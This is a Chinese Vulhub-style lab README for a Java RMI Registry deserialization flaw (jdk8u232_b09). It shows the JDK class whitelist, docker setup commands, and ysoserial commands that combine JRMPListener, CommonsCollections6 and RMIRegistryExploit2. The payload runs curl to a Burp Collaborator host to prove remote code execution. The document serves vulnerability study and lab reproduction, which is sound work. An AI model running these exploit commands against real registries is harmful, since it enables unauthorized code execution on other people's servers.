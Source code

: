 # Java RMI Registry 反序列化漏洞 (jdk8u232_b09)

## 漏洞描述

Java Remote Method Invocation 用于在 Java 中进行远程调用。RMI 存在远程 bind 的功能 (虽然大多数情况不允许远程 bind)，在 bind 过程中，伪造 Registry 接收到的序列化数据 (实现了 Remote 接口或动态代理了实现了 Remote 接口的对象)，使 Registry 在对数据进行反序列化时触发相应的利用链 (环境用的是 commons-collections:3.2.1).

自 jdk8u121 起，Registry 对反序列化的类做了白名单限制

```java
if (String.class == clazz
        || java.lang.Number.class.isAssignableFrom(clazz)
        || Remote.class.isAssignableFrom(clazz)
        || java.lang.reflect.Proxy.class.isAssignableFrom(clazz)
        || UnicastRef.class.isAssignableFrom(clazz)
        || RMIClientSocketFactory.class.isAssignableFrom(clazz)
        || RMIServerSocketFactory.class.isAssignableFrom(clazz)
        || java.rmi.activation.ActivationID.class.isAssignableFrom(clazz)
        || java.rmi.server.UID.class.isAssignableFrom(clazz)) {
    return ObjectInputFilter.Status.ALLOWED;
} else {
    return ObjectInputFilter.Status.REJECTED;
}
```

我们需要在上面的几个白名单里面找到相应的可利用的类 具体原理见 [浅谈RMI Registry反序列化问题](http://blog.0kami.cn/2020/02/06/rmi-registry-security-problem/)

## 环境搭建

Vulhub 执行如下命令编译及启动 RMI Registry 和服务器：

```
docker-compose build
docker-compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

其中，`your-ip` 是服务器 IP，客户端会根据这个 IP 来连接服务器。

环境启动后，RMI Registry 监听在 1099 端口。

## 漏洞复现

通过 [ysoserial](https://github.com/wh1t3p1g/ysoserial) 的 exploit 包中的 RMIRegistryExploit2 或者 3 进行攻击

```bash
// 开启JRMPListener
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections6 "curl http://xxxxx.burpcollaborator.net"
// 发起攻击
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit2 192.168.31.88 1099 jrmphost 8888
```

![image-20200206135822418](images/image-20200206135822418.png)

Registry 会返回报错，这个没关系正常，命令会正常执行。
